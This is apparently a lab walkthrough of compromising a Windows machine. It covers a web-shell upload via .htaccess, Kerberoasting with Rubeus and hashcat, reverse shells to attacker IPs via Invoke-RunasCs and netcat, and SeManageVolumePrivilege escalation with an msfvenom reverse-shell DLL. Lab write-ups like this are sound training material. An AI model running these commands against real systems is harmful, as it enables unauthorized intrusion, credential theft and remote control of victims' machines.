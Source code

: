 ![](../attachment/4711c9ee0ced3bd07d627ecf5dab73ae.png)

There is a file upload functionality:
![](../attachment/dcc550d57de6c44c76432da3f1a7e5f8.png)

We can try to replace the .htaccess file of the server since it is running apache.

Running feroxbuster we also have an uploads directory.

We have `shell.whatevs`:
![](../attachment/9f563b087098b64d81059518322226d6.png)

For command execution:
http://192.168.183.187/uploads/shell.whatevs?cmd=whoami
![](../attachment/e5c675aae8a69981af6366f9096ba238.png)

Now run powershell base64 payload
![](../attachment/99a98eec6e2698701e36223402ed003d.png)

We have 2 service accounts:
![](../attachment/4c4d639a17c72548140fe1c6b60a6d20.png)

We can try kerberoasting:
```
.\Rubeus.exe kerberoast /nowrap
```
![](../attachment/7ec4dbaa2c73388a3865b0f7b7e5aaab.png)

We got a hash for svc_mssql.
We can crack it with hashcat ![](../attachment/36d8dd0a1072a412c6045bf7cb4dbae2.png)
trustno1

Now to get a shell as svc_mssql:
```
import-module .\Invoke-RunasCs.ps1
```
```
Invoke-RunasCs svc_mssql trustno1 cmd.exe -remote 192.168.45.229:1234
```
We now get a shell at port 1234:
```
sudo rlwrap nc -nlvp 1234
```
![](../attachment/393c8d443967c5771a4efbdbbd82c128.png)

![](../attachment/3e41c2e79c55225a8a5085faaa00c1ac.png)
Now we can use an exploit for SeManageVolumePrivilege:
https://github.com/CsEnox/SeManageVolumeExploit/releases

Run it first
```
SeManageVolumeExploit.exe
```

For Printconfig.dll:
```bash 
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.190 LPORT=4444 -f dll -o Printconfig.dll
```
Then transfer to machine
Then copy it:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```

Then in powershell:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
Now should have got a shell
![](../attachment/306a0f910ae13efd4d3c1e6065f25353.png)